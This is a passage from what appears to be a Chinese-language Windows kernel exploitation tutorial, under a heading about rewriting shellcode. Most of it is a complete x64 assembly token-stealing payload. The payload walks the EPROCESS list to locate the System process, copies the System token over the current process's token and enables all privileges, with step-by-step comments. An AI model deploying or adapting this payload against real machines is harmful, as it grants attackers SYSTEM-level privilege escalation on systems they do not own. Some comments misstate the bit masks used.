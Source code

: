 查看权限

[![](assets/1706090578-cd66cf9424dae99a4966172fe2a97d81.png)](https://xzfile.aliyuncs.com/media/upload/picture/20240124145038-e1cb8796-ba84-1.png)

#### III.重新编写 shellcode

```plain
[Bits 64]

_start:    
    xor rax, rax
    mov rax, gs:[rax + 0x188]
    mov rax, [rax + 0xb8]     ;rax = 当前EPROCESS
    mov r9, rax               ;r9  = 当前EPROCESS
    mov rax, [rax + 0x448]    ;rax = 当前EPROCESS.List
    mov rax, [rax]            ;rax = 当前EPROCESS.List->flink

__loop:
    mov rdx, [rax - 0x8]      ;rdx = 上一个进程的 upid
    mov r8, rax               ;r8  = 当前 EPROCESS.List->flink
    mov rax, [rax]            ;rax = 上一个进程的.List
    cmp rdx, 0x4
    jnz __loop

    ;rdx = 4
    ;r8 = System EPROCESS
    mov rdx, [r8+0x70]      ;rdx = system token
    and rdx, -0x8           ;消除低4位
    mov rcx, [r9+0x4b8]     ;当前EPROCESS的token
    and rcx, 0x7            ;
    add rdx, rcx            ;rdx = 系统token高位+当前token低4位
    mov [r9+0x4b8], rdx     ;将合成的token复制给当前

    ;Enable ALL
    mov rdx, [r8 + 0x70]      ;rdx = system token
    and rdx, 0xFFFFFFFFFFFFFFF0           ;system token: 消除低8位，便于解析Token
    mov rbx, [rdx + 0x40]     ;rbx = System token的Present
    mov rcx, [r9 + 0x4b8]     ;rcx = 新的EPROCESS的token
    and rcx, 0xFFFFFFFFFFFFFFF0           ;new current token: 消除低8位，便于解析Token
    mov [rcx + 0x40], rbx
    mov [rcx + 0x48], rbx

    xor rax, rax
```